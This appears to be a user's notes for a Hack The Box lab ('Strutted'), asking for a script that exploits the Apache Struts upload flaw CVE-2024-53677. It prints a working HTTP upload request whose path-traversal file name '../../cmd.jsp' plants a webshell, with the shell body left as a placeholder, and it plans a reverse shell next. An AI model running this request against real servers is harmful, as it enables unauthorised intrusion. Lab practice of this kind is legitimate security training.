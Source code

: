 There is this exploit for the machine Strutted to gain initial access:
https://github.com/TAM-K592/CVE-2024-53677-S2-067/blob/ALOK/Check-CVE-2024-53677.py
https://app.hackthebox.com/machines/Strutted


However it doesn't work, because of capitalization issues/other. So I'd like to make my own that tries capitalization/doesn't. Heres what the request that worked for me looks like


"""
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------111956066639895974821343008024
Content-Length: 1385
Origin: http://strutted.htb
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=FFD35E175196066E67D929908E9F84B1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------111956066639895974821343008024
Content-Disposition: form-data; name="Upload"; filename="empty.jpg"
Content-Type: image/jpeg

ÿØÿà

<MALICIOUS WEBSHELL HERE>


-----------------------------111956066639895974821343008024
Content-Disposition: form-data; name="top.UploadFileName"

../../cmd.jsp
-----------------------------111956066639895974821343008024--

"""

The "name="Upload" portion NEEDED to be capitalized like in the example for it to work

----


Once you've generated a script that appends all the required headers -->

Interact with the webshell and gain a revshell (using the other tool we plan on making first) 
 